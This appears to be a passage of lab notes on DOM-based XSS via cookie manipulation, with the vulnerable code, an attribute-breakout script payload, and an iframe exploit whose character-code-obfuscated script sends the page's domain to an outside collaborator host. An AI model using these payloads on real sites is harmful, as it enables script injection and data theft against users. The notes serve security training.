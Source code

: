 - `https://VULNERABLE-APP.net/post?postId=4&url=https://user-input`

The vulnerable code:

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
```
# DOM XSS - Cookie Manipulation

The "window.location" source is being appended to a Cookie using the "document.cookie". This cookie value is reflected back in the app's response within an HTML attribute. Submit a crafted URL that will break out of the HTML context and execute JavaScript code.

An example context:

- `<a href='https://VULNERABLE-APP.net/product?productId=user-input`

And the payload would be:

```javascript
&'><script>print()</script>
```

>[!info]
>You need to use the & in the URL symbol to inject valid payload, since the app will throw an error if the "productId" is not valid.

The iframe will first load the vulnerable URL, which will store it in "window.location" source. Then, the onload event will redirect to another page on the app, which will trigger the JavaScript, as the URL is reflected in the response.

The final payload:

```html
<iframe src="https://VULNERABLE-APP.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://VULNERABLE-APP.net';window.x=1;">
```

The vulnerable code:

```html
<script>
   document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

And the exploitation payload:

```html
<iframe src="https://0ac0003e03b1155582af4721003c00da.web-security-academy.net/product?productId=1&'><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,100,101,118,49,98,116,104,49,100,112,50,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34))</script>" onload="if(!window.x)this.src='https://0ac0003e03b1155582af4721003c00da.web-security-academy.net';window.x=1;">
```

